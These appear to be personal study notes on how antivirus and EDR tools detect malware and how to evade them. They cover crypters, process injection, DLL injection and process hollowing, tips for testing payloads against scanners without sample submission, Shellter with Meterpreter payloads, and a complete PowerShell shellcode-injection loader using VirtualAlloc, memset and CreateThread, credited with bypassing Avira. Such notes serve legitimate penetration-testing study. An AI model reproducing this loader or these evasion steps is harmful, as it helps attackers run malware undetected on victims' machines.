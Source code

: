 ```yaml
---
layout: blank
---
```


### EDRs
- 7 general components:
    - File Engine
    - Memory Engine
    - Network Engine
    - Disassembler
    - Emulator/Sandbox
    - Browser Plugin
    - Machine Learning Engine
- Detection methods:
    - Signature
        - Hash the malware. If it matches, it's a virus
    - Heuristic
        - Achieved by stepping through instruction set of a binary file and searching for patterns
    - Behavioral
        - Execute the file in an emulated environment and watching for suspicious actions
    - Machine Learning

### Bypassing Detection
**On-disk Evasion**
- Obfuscators can be marginally effective
- _Crypter_ cryptographically alters code and only decrypts in memory
    - Encryption is one of the most effective AV evasion techniques
- Anti-reversing, Anti-debugging, VM detection
- Software protectors like _Anti-copy_
- _The Enigma Protector_ can successfully bypass antiviruses **In-Memory Evasion**
- Injecting into the memory of another process
    - Use OpenProcess to obtain a valid HANDLE
    - Use VirtualAllocEx to allocate memory in the context of the process with that HANDLE
    - After memory allocated, copy the malicious payload to the new allocate dmemory
- DLL Injection
    - Loads a malicious DLL from disk using LoadLibrary API
        - LoadLibrary must load DLL from disk
    - Reflective DLL injection
        - Loads a DLL stored by attacker into process memory
- Process Hollowing
    - Launch non-malicious process in suspended state
    - Remove process image and replace with malicious executable image
    - Resume process
- Inline hooking
    - Modify memory to introduce a hook into malicious code, returning back to original point after execution

### Evasion in Practice
- Use AntiScan.me to test malware if target AV vendor is unknown, which doesn't submit samples to third-parties
- DISABLE AUTOMATIC SAMPLE SUBMISSION TO TEST ON DEFENDER
- **Thread Injection**
    - Powershell scripts can be really difficult to fingerprint, so changing things like variable names can actually help
        - If running scripts is disabled, use `-ExecutionPolicy Bypass` flag or `Set-ExecutionPolicy -ExecutionPolicy Unrestricted CurrentUser`
        - LMFAO
    - Example in Offsec:
        - Used a well-known memory injection PowerShell script, using msfvenom shellcode as the payload
        - Changed variable names and bypassed Avira antivirus
- **Automating AV evasion**
    - _Shellter_ is a popular shellcode injection tool capable of bypassing antivirus software
        - `sudo apt install shellter`
        - Best to inject into a non-well known process
        - Can use Meterpreter payloads
- DLL injection without touching disk
    - Share the DLL remotely with `sudo impacket-smbserver share ./`

### Thread Injection
- Operates within the process it's being executed from
- Rename the variables
```
# Import VirtualAlloc to allocate memory
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

# Import CreateThreat to create execution threads
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

# Import memset to write arbitrary data to allocated memory
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```